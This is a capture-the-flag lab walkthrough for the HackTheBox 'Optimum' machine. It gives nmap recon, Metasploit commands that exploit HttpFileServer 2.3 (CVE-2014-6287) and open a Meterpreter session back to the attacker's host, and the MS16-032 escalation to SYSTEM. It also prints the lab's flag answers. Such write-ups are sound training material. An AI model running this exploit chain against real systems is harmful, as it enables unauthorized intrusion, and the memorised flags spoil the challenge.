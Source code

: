 
# HackTheBox Walkthrough - Machine: Optimum

**Target IP**: 10.129.19.252  
**Difficulty**: Easy  
**Objective**: Exploit HttpFileServer 2.3 (CVE-2014-6287) and escalate privileges to SYSTEM.

---

## 🧭 Task 1: Which version of HttpFileServer is running on TCP port 80?

```bash
nmap -sV -sC -oA nmap/Optimum 10.129.19.252
```
![nmap](img/nmap.png)

결과:
```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
```

### ✅ Answer: `2.3`

---

## 🐞 Task 2: What is the 2014 CVE ID for a remote code execution vulnerability in the findMacroMarker function in HttpFileServer 2.3 version?

- Google 검색: `hfs 2.3 findMacroMarker vulnerability site:cve.mitre.org`
- CVE 페이지: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287  
![cve](img/cve.png)

### ✅ Answer: `CVE-2014-6287`

---

## 👤 Task 3: What user is the webserver running as?

![search](img/search.png)

```bash
msfconsole
search HFS 2.3
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.129.19.252
set LHOST 10.10.14.156
set SRVHOST 10.10.14.156
run
```

Exploit 성공 후:
![meterpreter](img/meterpreter.png)

```bash
meterpreter > getuid
```

결과:
```
Server username: kostas
```

### ✅ Answer: `kostas`

---

## 📄 Task 4: Submit the user flag

```bash
meterpreter > cd Desktop
meterpreter > cat user.txt
```
![userflag](img/userflag.png)

결과:
```
a8c34f2075cb73ab5b880a41f791d2ca
```

### ✅ Answer: `a8c34f2075cb73ab5b880a41f791d2ca`

---

## 🔑 Task 5 (Optional): What is the password for the kostas user?

```bash
meterpreter > sysinfo
```
![sysinfo](img/sysinfo.png)

- OS: Windows Server 2012 R2 x64
- meterpreter는 x86이므로 `migrate` 수행 필요

```bash
meterpreter > ps
meterpreter > migrate <explorer.exe PID>
```

### ✅ Password 추출은 불필요 / 진행상 참고용

---

## 📈 Task 6: Which metasploit reconnaissance module can be used to list possible privilege escalation paths?

```bash
meterpreter > sysinfo
```

- Computer        : OPTIMUM
- OS              : Windows Server 2012 R2 (6.3 Build 9600)
- Architecture    : x64
- Meterpreter     : x86/windows

```bash
ps
migrate 1572
```

```bash
ctrl + z
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

![postexlpoit](img/postexlpoit.png)

```bash
run
```
![root](img/root.png)

### ✅ Answer: `local_exploit_suggester`

---

## 👑 Submit Root Flag

```bash
meterpreter > cd C:\Users\Administrator\Desktop
meterpreter > cat root.txt
```
![rootflag](img/rootflag.png)

결과:
```
1d7bd5edbe34d508c334bb28f5ab85ef
```

### ✅ Answer: `1d7bd5edbe34d508c334bb28f5ab85ef`

---
